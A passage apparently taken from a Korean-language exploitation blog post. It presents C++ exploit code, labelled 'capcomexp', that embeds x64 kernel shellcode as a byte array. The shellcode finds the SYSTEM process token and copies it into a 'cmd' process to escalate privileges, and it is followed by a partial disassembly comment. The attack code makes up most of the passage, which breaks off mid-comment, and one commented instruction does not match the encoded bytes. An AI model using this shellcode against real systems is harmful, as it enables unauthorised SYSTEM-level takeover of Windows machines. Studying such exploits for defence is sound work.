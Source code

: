 ```
```

위의 쉘 코드는 `HEVD` 라는 취약점 PoC를 위한 드라이버를 토대로 짜여진 쉘 코드다. 개념을 잡기 위한 내용일뿐이며 실제 익스플로잇에서는 다른 쉘 코드를 사용해야 한다.

# [+] Exploit

우선 내가 쥐어짠 익스 코드다.

```c++
#include <stdio.h>
#include <Windows.h>

int main()
{

	BYTE ShellCode[] = { 
		0x51,
		0x52,
		0x41,0x50,
		0x41,0x51,
		0x65,0x48,0x8B,0x0C,0x25,0x88,0x01,0x00,0x00,
		0x48,0x8B,0x91,0xB8,0x00,0x00,0x00,
		0x4C,0x8B,0x82,0xE8,0x02,0x00,0x00,
		0x49,0x8B,0x08,
		0x48,0x8B,0x51,0xF8,
		0x48,0x83,0xFA,0x04,
		0x74,0x05,
		0x48,0x8B,0x09,
		0xEB,0xF1,
		0x48,0x8B,0x41,0x70,
		0x24,0xF0,
		0x48,0x8B,0x09,
		0x4C,0x8D,0x81,0x68,0x01,0x00,0x00,
		0x45,0x8A,0x08,
		0x41,0x80,0xF9,0x63,
		0x75,0xED,
		0x45,0x8A,0x48,0x01,
		0x41,0x80,0xF9,0x6D,
		0x75,0xE3,
		0x45,0x8A,0x48,0x02,
		0x41,0x80,0xF9,0x64,
		0x75,0xD9,
		0xEB,0x00,
		0x48,0x89,0x41,0x70,
		0x41,0x59,
		0x41,0x58,
		0x5A,
		0x59,
		0xC3 
	};
	/*
	push rcx
	push rdx
	push r8
	push r9
	mov rcx,qword ptr gs:[188]
	mov rdx,qword ptr ds:[rdx+B8]
	mov r8,qword ptr ds:[rdx+2E8]
	mov rcx,qword ptr ds:[r8]
	mov rdx,qword ptr ds:[rcx-8]
	cmp rdx,4
	je <capcomexp.GetToken>
	mov rcx,qword ptr ds:[rcx]
```